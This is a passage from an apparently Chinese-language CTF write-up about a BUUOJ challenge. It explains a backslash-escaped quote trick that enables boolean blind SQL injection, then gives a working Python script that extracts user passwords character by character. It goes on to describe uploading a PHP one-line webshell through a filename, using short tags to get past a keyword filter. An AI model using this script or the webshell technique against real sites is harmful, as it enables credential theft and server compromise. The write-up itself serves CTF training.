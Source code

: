 > > > > > >     
> > > > > > *   原理是
> > > > > >     
> > > > > >     
> > > > > >     
> > > > > >     ```
> > > > > >     where id ='111\'  or path='or id=if(a,1,0) # '; 
> > > > > >     ```
> > > > > >     
> > > > > >     
> > > > > > *   被重新分割为 `id ='111\' or path='` 和`id=if(a,1,0)`，前面查询失败查询后面的，再利用id=0和id=1时回显不同可以进行布尔盲注。
> > > > > >     
> > > > > >     
> > > > > > *   所以写脚本。
> > > > > >     
> > > > > >     
> > > > > > 
> > > > > > ```
> > > > > > import requests
> > > > > > url = "http://84eba562-90eb-4cda-9329-a56e19b5d38d.node3.buuoj.cn/image.php?id=\\0&path=or 1="
> > > > > > result = ""
> > > > > > last = "tmp" 
> > > > > > i = 0
> > > > > > 
> > > > > > while( result != last ):
> > > > > > 	i = i + 1 
> > > > > > 	head=32
> > > > > > 	tail=127
> > > > > > 	while( head < tail ):
> > > > > > 		mid = (head + tail) >> 1
> > > > > > 		
> > > > > > 		
> > > > > > 		
> > > > > > 		
> > > > > > 		payload = "if(ascii(substr((select group_concat(password) from ciscnfinal.users ),%d,1))>%d,1,-1)%%23"%(i,mid)
> > > > > > 		
> > > > > > 		r = requests.get(url+payload)
> > > > > > 
> > > > > > 		if b"JFIF" in r.content :
> > > > > > 			head = mid + 1
> > > > > > 		else:
> > > > > > 			tail = mid
> > > > > > 	
> > > > > > 	last = result
> > > > > > 	
> > > > > > 	if chr(head)!=" ":
> > > > > > 		result += chr(head)
> > > > > > 	print(result) 
> > > > > > ```
> > > > > > 
> > > > > > *   得到admin账号和密码登录即可完成注入步骤。
> > > > > >     
> > > > > >     
> > > > > > *   登录成功后是一个文件上传界面，可以看到它的上传路径是日志文件，所以只需上传一个文件名为一句话木马的文件就行。
> > > > > >     
> > > > > >     
> > > > > > *   但文件名存在php关键字过滤。利用php短标签即可绕过。我做的时候用蚁剑连接非常不稳定，一会可以一会不行，并且用的`random`编码。
> > > > > >     
> > > > > >     
> > > > > >     
> > > > > >     ```